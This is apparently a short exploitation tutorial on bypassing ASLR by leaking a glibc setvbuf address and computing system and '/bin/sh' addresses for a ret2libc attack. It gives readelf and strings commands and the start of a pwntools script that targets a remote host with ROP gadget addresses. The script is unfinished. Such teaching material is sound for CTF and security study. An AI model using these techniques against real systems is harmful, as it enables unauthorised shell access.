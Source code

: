 **Bypassing ASLR protection by finding the Glibc address** First we list the shared libraries dependencies of the binary

```
ldd binary-name
```

Based on the output above we can find the setvbuf offeset

```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep setvbuf
```

To find the Glibc base address we need the offset of setvbuf and setvbuf address

```
glibc_addr = setvbuf_addr - setvbuf_offset
```

**Finding the offset of `system` and `/bin/sh`** offset of `system`

```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
```

Offset of `"/bin/sh"`

```
strings -atx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
```

And then we calculate the addresses as below

```
system_addr = glibc_addr + system_offset
bin_sh_addr = glibc_addr + bin_sh_offset
```

**Putting it altogether in an exploit script** The example python script below represents some of the variables that you need to calculate and the final payload. It also assumes that you are exploiting the binary remotely through IP:Port combinations

This script needs to be modified to fit to your scenario. Additionally it only includes the payload with the necessary memory addresses.

```python
#!/usr/bin/env python3

from pwn import *

context.binary = 'BINARY-NAME'

def get_process():
    if len(sys.argv) == 1:
        return context.binary.process()
        
    host, port = sys.argv[1].split(':')
    return remote(host, int(port))


def main():
    p = get_process()


    base_addr = leaked_addr - 0x40c0
    log.success(f' base address: {hex(base_addr)}')

    stack_pivot = base_addr + 0x1219
	pop_rdi_ret = base_addr + 0x13c3        
	setvbuf_got_addr = base_addr + 0x4048 
	puts_plt_addr = base_addr + 0x1030

```